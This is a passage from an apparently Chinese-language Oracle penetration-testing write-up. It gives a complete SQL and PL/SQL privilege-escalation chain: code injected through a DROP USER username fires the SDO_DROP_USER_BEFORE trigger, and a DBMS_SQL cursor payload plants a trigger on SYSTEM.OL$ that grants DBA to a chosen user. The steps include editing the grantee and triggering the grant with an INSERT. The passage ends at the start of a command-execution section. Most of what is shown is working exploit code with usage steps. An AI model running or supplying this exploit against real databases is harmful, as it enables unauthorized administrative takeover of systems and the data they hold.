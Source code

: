 之后将注入该procedure的payload放到drop的用户名中，触发`SDO_DROP_USER_BEFORE`执行，再向`system.OL$`中插入数据即可

``` sql
DROP USER "'||CHR(DBMS_SQL.EXECUTE(5))||'";

INSERT INTO SYSTEM.OL$ (OL_NAME) VALUES ('OWNED!');
```



#### (2) 利用

``` sql
-- 一定要有这一句，不然后面的Cursor value无法输出
SET SERVEROUTPUT ON;

-- 注意修改grant的用户，执行后记下打印的Cursor value
DECLARE
MY_CURSOR NUMBER;
RESULT NUMBER;
BEGIN
MY_CURSOR := DBMS_SQL.OPEN_CURSOR;
DBMS_SQL.PARSE(MY_CURSOR,'declare pragma autonomous_transaction; begin DBMS_OUTPUT.PUT_LINE(''EXECUTING FROM SDO_DROP_USER_BEFORE!!!''); execute immediate ''create or replace trigger system.WHOPPEE before insert on system.OL$ DECLARE msg VARCHAR2(30); BEGIN null; dbms_output.put_line(''''In the trigger''''); EXECUTE IMMEDIATE ''''DECLARE PRAGMA AUTONOMOUS_TRANSACTION; BEGIN EXECUTE IMMEDIATE ''''''''GRANT DBA TO TEST4''''''''; END; ''''; end WHOPPEE;''; commit; end;',0);
DBMS_OUTPUT.PUT_LINE('Cursor value is :' || MY_CURSOR);
END;
/ 

-- DBMS_SQL.EXECUTE()中是前面得到的Cursor value
DROP USER "'||CHR(DBMS_SQL.EXECUTE(5))||'"; 

-- 插入数据来触发条件
INSERT INTO SYSTEM.OL$ (OL_NAME) VALUES ('OWNED!');
```

开启服务端输出，执行命令，记下Cursor value

![1609652444255.png](https://i.loli.net/2021/03/06/CvIp6jL2fcQYGNi.png)

在drop user语句中填入对应的Cursor value，并插入数据来触发条件，成功获取DBA权限：

![1609652463941.png](https://i.loli.net/2021/03/06/UJ2jPyHbIRSsTV4.png)


## 0x04 命令执行


### 1. DBMS_XMLQUERY

> 测试环境：
> Oracle Database 11g Enterprise Edition Release 11.2.0.1.0 - 64bit
> Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit
> 
> 权限要求：
> + `CREATE SESSION`
> + `CREATE PROCEDURE`
> （某些版本是否需要CREATE PROCEDURE存疑）
